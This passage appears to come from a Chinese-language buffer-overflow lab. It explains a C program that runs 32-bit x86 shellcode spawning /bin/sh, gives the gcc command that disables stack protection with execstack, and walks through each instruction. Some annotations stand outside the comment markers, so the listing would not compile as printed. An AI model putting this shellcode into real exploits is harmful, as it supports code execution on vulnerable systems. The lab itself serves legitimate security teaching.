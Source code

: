 我们使用的shellcode只是上述程序的汇编版本。以下程序向您展示如何通过执行存储在缓冲区中的 shellcode 来启动 shell。请编译运行以下代码，看看是否调用了shell。（如果你很勇，请查阅在线 Intel x86 手册以了解每条指令。）

```c
/* call_shellcode.c  */

/* 创建包含启动shell代码的文件的程序 */
#include <stdlib.h>
#include <stdio.h>

const char code[] =
    "\x31\xc0" /* xorl    %eax,%eax              */   %eax = 0 (avoid 0 in code)
    "\x50"     /* pushl   %eax                   */   set end of string“/bin/sh"
    "\x68""//sh"/* pushl   $0x68732f2f            */
    "\x68""/bin"/* pushl   $0x6e69622f            */
    "\x89\xe3" /* movl    %esp,%ebx              */    set %ebx
    "\x50"     /* pushl   %eax                   */
    "\x53"     /* pushl   %ebx                   */
    "\x89\xe1" /* movl    %esp,%ecx              */    set %ecx
    "\x99"     /* cdq                            */    set %edx
    "\xb0\x0b" /* movb    $0x0b,%al              */    set %eax
    "\xcd\x80" /* int     $0x80                  */    invoke execve ()
    ;

int main(int argc, char **argv)
{
  char buf[sizeof(code)];
  strcpy(buf, code);
  ((void (*)())buf)();
}
```

请使用以下命令编译代码（不要忘记execstack选项）：

```bash
gcc -z execstack -o call_shellcode call_shellcode.c
```

> 这个 shellcode 中有几个地方值得一提。
>
> 首先，第三条指令将“`//sh`”而不是“`/sh`”压入堆栈。这是因为我们这里需要一个 32 位的数字，而“`/sh`”只有 24 位。幸好，“`//`”等价于“`/`”，所以我们可以不用双斜线符号。
>
> 其次，在调用`execve()` 系统调用之前，我们需要分别将`name[0]`（字符串的地址）、 `name`（数组的地址）和`NULL`存储到`%ebx`、`%ecx`和`%edx`寄存器中 。
>
> > 第 5 行将`name[0]`存储到`%ebx`；
> >
> > 第 8行将`名称`存储到`%ecx`; 
> >
> > 第 9`行将 %edx`设置为零。
> >
> > 还有其他方法可以将`%edx` 设置为零（例如`xorl %edx, %edx`）；此处使用的（`cdql`）只是一条较短的指令。
>
> 最后，系统调用`execve()`在我们设置`%al`为 11 时被调用，并执行“ `int $0x80` ”。
>